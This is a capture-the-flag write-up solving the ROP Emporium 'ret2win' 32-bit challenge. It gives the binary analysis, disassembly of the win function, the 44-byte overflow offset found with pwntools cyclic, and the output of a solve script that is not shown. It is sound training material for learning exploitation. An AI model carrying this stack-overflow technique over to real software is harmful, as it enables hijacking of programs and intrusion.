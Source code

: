 # ret2win | ROP Emporium

```bash
kali@kali:~/Desktop/rop$ file ret2win32 
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped

kali@kali:~/Desktop/rop$ checksec --file=ret2win32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   72) Symbols       No    0               3               ret2win32
```

## Steps
### 1. Investigate binary
Function names and symbol names:
```bash
kali@kali:~/Desktop/rop$ rabin2 -i ret2win32 
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080483b0 GLOBAL FUNC       read
2   0x080483c0 GLOBAL FUNC       printf
3   0x080483d0 GLOBAL FUNC       puts
4   0x080483e0 GLOBAL FUNC       system
5   0x00000000 WEAK   NOTYPE     __gmon_start__
6   0x080483f0 GLOBAL FUNC       __libc_start_main
7   0x08048400 GLOBAL FUNC       setvbuf
8   0x08048410 GLOBAL FUNC       memset

kali@kali:~/Desktop/rop$ nm -u ret2win32 
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U memset@@GLIBC_2.0
         U printf@@GLIBC_2.0
         U puts@@GLIBC_2.0
         U read@@GLIBC_2.0
         U setvbuf@@GLIBC_2.0
         U system@@GLIBC_2.0
```
Attempt to show just functions written by the programmer of the binary:
```bash
kali@kali:~/Desktop/rop$ rabin2 -qs ret2win32 | grep -ve imp -e ' 0 '
0x0804a030 4 stdout
0x080486dc 4 _IO_stdin_used
0x0804a034 1 completed.7283
0x080485ad 127 pwnme
0x0804862c 41 ret2win
0x080486c0 2 __libc_csu_fini
0x08048480 4 __x86.get_pc_thunk.bx
0x08048660 93 __libc_csu_init
0x08048470 2 _dl_relocate_static_pie
0x080486d8 4 _fp_hw
0x0804a030 4 stdout@@GLIBC_2.0
0x08048546 103 main
```
Can see there is main, ret2win and pwnme that stand out as functions probably written by the programmer.  
Strings in the binary:
```bash
ali@kali:~/Desktop/rop$ rabin2 -z ret2win32 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006e0 0x080486e0 23  24   .rodata ascii ret2win by ROP Emporium
1   0x000006f8 0x080486f8 4   5    .rodata ascii x86\n
2   0x000006fd 0x080486fd 8   9    .rodata ascii \nExiting
3   0x00000708 0x08048708 95  96   .rodata ascii For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
4   0x00000768 0x08048768 29  30   .rodata ascii What could possibly go wrong?
5   0x00000788 0x08048788 95  96   .rodata ascii You there, may I have your input please? And don't worry about null bytes, we're using read()!\n
6   0x000007eb 0x080487eb 10  11   .rodata ascii Thank you!
7   0x000007f6 0x080487f6 28  29   .rodata ascii Well done! Here's your flag:
8   0x00000813 0x08048813 17  18   .rodata ascii /bin/cat flag.txt
```
When looking at the ret2win function in radare2, it can be seen the flag.txt file is read using cat.
```bash
[0x08048430]> pdf @sym.ret2win
┌ 41: sym.ret2win ();
│           0x0804862c      55             push ebp
│           0x0804862d      89e5           mov ebp, esp
│           0x0804862f      83ec08         sub esp, 8
│           0x08048632      83ec0c         sub esp, 0xc
│           0x08048635      68f6870408     push str.Well_done__Here_s_your_flag: ; 0x80487f6 ; "Well done! Here's your flag:" ; const char *s
│           0x0804863a      e891fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0804863f      83c410         add esp, 0x10
│           0x08048642      83ec0c         sub esp, 0xc
│           0x08048645      6813880408     push str.bin_cat_flag.txt   ; 0x8048813 ; "/bin/cat flag.txt" ; const char *string
│           0x0804864a      e891fdffff     call sym.imp.system         ; int system(const char *string)
│           0x0804864f      83c410         add esp, 0x10
│           0x08048652      90             nop
│           0x08048653      c9             leave
└           0x08048654      c3             ret
[0x08048430]> 
```
This is the funcion that needs to be reached.

### 2. Figure out the payload
First find the offset at which to place the payload. I'm just going to fill the 56 byte stack buffer with cyclic input and then retrieve the segfault message.
```bash
kali@kali:~/Desktop/rop$ sudo dmesg -C
kali@kali:~/Desktop/rop$ python -c "from pwn import cyclic; print(cyclic(56))" | ./ret2win32 
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Segmentation fault
kali@kali:~/Desktop/rop$ sudo dmesg -t
ret2win32[3721]: segfault at 6161616c ip 000000006161616c sp 00000000fff8ee80 error 14 in libc-2.30.so[f7ce5000+1d000]
Code: Bad RIP value.
kali@kali:~/Desktop/rop$ python -c "from pwn import cyclic_find; print(cyclic_find(0x6161616c))"
44
```
With the offset known, I can now construct an exploit to jump to the desired function (see solve.py).

### 3. Run against the binary to win
```bash
kali@kali:~/Desktop/rop$ python solve.py 
[*] '/home/kali/Desktop/rop/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/kali/Desktop/rop/ret2win32': pid 2621
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> 
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/kali/Desktop/rop/ret2win32' (pid 2621)
```

## Differences in architecture
I also did the x64 binary, which is the same process except the offset is 4 bytes less with a longer (64 bit) ret2win address.
